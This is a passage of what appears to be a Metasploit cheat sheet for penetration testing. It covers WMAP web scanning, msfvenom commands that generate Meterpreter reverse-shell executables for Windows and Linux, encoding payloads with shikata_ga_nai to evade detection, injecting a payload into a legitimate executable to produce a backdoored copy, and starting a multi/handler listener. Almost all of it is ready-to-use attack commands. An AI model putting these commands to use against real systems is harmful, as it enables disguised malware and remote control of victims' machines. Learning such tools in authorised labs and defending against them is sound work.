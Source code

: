 #### With WMAP (Web Apps)

```
msf6 > load wmap
msf6 > wmap_sites -a <TargetIP>
msf6 > wmap_targets -t http://<TargetIP>
msf6 > wmap_run -t
msf6 > wmap_vulns
```

---

### Payloads with Msfvenom

#### Generating Payloads

```
msfvenom --list payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

#### Encoding Payloads

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 10 -f exe > encoded.exe
```

#### Injecting Payloads

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -k -x legitimate.exe -f exe > backdoored.exe
```

#### Starting a Listener

```
msf6 > use multi/handler
msf6 > set payload <payload>
msf6 > run
```

---

### Automation with Resource Scripts

```
msfconsole -r <script.rc>
msf6 > resource /path/to/script.rc
```

---

### Exploitation Labs
